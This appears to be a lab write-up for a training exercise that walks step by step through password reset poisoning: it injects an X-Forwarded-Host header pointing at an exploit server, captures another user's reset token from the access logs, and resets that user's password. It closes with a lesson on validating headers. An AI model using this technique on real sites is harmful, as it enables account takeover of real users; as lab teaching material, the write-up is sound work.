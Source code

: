 # Lab: Password Reset Poisoning via Middleware

This lab demonstrates a vulnerability in the password reset flow, where the `X-Forwarded-Host` header is blindly trusted by middleware, allowing us to hijack the reset token.

### 🛠 Step-by-step:

1. **Start BurpSuite** and keep it running.

2. Go to the lab page and click on **"Forgot your password?"**

3. Enter this username:  
wiener

Submit it.

4. In **BurpSuite → HTTP history**, find the `POST /forgot-password` request.

5. **Send it to Repeater.**

6. In the Repeater tab:
- Go to the **Headers** section.
- Add the following header:
  ```
  X-Forwarded-Host: exploit-0a19006d04484df280664eab01a200ce.exploit-server.net
  ```
- Go to the **Body** and change:
  ```
  username=wiener
  ```
  to:
  ```
  username=carlos
  ```

7. **Send the request.**

### 📜 Steal Carlos’s Token

8. Now go to your **Exploit Server → Access logs**.

9. You'll see something like this:
GET /forgot-password?temp-forgot-password-token=czerix0e9qq8xgqlywd68r073nhcy23u

10. Copy the **`temp-forgot-password-token`** value:  
 ```
 czerix0e9qq8xgqlywd68r073nhcy23u
 ```

### 🔗 Modify Reset Link

11. Open the **Email Client**.

12. Copy the **original reset link** at the bottom. Example:
 ```
 https://exploit-server.net/forgot-password?temp-forgot-password-token=abc123xyz
 ```

13. Replace the token in the URL with Carlos’s token:
 ```
 https://exploit-server.net/forgot-password?temp-forgot-password-token=czerix0e9qq8xgqlywd68r073nhcy23u
 ```

14. Paste the **modified link** in a new browser tab.

### ✅ Reset Carlos’s Password

15. Enter a new password for Carlos (example: `khan`) and submit.

16. Now go to the login page and enter:
- **Username**: `carlos`  
- **Password**: `khan`

🎉 **Lab Solved!**

### 🧠 Key Takeaway:

This lab teaches how trusting unvalidated headers like `X-Forwarded-Host` can lead to **reset token theft**, enabling full **account takeover**. Always sanitize and validate headers in middleware to prevent such attacks.
